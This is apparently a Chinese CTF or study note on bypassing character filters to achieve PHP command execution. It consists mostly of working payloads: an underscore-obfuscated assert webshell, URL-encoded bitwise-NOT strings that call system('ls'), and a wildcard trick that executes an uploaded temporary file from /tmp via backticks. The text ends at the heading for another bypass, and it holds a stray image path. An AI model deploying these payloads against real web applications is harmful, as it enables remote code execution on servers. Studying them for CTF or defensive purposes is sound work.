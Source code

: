 ```
$___($_[_]);  //ASSERT($_POST[_])
```

进行一次url编码，然后post提交

## 4.对符号进行过滤

### php过滤

```
<?=phpinfo();?>
```

### _过滤

```
?cmd=?><?=`{${~"%a0%B8%BA%AB"}[%a0]}`?>&%a0=ls
```

### _和$过滤

#### php7

```
?cmd=(call_user_func)(system,ls,'')
?cmd=(~%9C%9E%93%93%A0%8A%8C%9A%8D%A0%99%8A%91%9C)(~%8C%86%8C%8B%9A%92,~%93%8C,'');
```

####  php5

文件读取

php中post上传文件会把我们上传的文件暂存在<font color=red>/tmp</font>>目录下,

默认文件名是phpxxxxxx,文件名最后6个字符是随机的大小写字母

./???/????????[@-[]表示ASCII在@和[之间的字符，也就是大写字母，保障最后一位为大写字母

一：先构造一个文件上传的POST数据包

二：PHP页面生成临时文件phpxxxxxx，存储在/tmp目录下；

三：执行指令：./???/?????[@-[],读取文件，执行其中的指令

```
?cmd=?><?=`.+/???/????????[@-[]]`?>
```

![image-20240528184008629](./././././././././.\PHP命令执行\image-20240528183950627.png)

### ;~^`&|过滤

